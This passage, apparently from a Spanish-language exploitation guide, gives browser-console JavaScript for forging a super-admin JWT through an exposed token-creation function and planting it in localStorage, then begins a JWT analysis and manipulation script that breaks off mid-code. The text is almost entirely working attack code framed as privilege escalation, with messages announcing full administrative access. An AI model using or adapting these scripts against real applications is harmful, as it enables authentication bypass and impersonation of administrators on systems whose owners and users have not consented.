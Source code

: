 #### **Método 2: Forjado de Token de Super-Admin**
```javascript
// Crear token completamente falso con privilegios máximos
const forgeAdminToken = () => {
  const fakeAdminData = {
    id: 9999,
    username: 'super_admin',
    email: 'superadmin@hacked.com',
    role: 'admin',
    created_at: new Date().toISOString(),
    profile: {
      fullName: 'Super Administrator (FORGED)',
      department: 'Security Breach',
      salary: 999999,
      phone: '+1-555-HACKED'
    }
  };
  
  console.log("🚨 FORGING SUPER ADMIN TOKEN...");
  
  // Usar la función expuesta del sistema
  const forgedToken = api.createFakeToken(fakeAdminData);
  
  console.log("✅ Token forjado creado:", forgedToken);
  
  // Reemplazar token y datos de usuario
  localStorage.setItem('token', forgedToken);
  localStorage.setItem('user', JSON.stringify(fakeAdminData));
  
  console.log("🎭 Identidad falsa establecida. Recarga la página.");
  console.log("🔓 Ahora tienes acceso administrativo completo con identidad forjada.");
  
  return forgedToken;
};

// Ejecutar forjado
forgeAdminToken();
```

#### **Método 3: Análisis y Manipulación de Token**
```javascript
// Script completo para análisis y manipulación de JWT
const jwtExploitSuite = {
  
  // Analizar token actual
  analyzeCurrentToken: () => {
    const token = localStorage.getItem('token');
    if (!token) {
      console.log("❌ No hay token disponible");
      return null;
    }
    
    const parts = token.split('.');
    if (parts.length !== 3) {
      console.log("❌ Token malformado");
      return null;
    }
    
    try {
      const header = JSON.parse(atob(parts[0]));
      const payload = JSON.parse(atob(parts[1]));
      const signature = parts[2];
      
      const analysis = {
```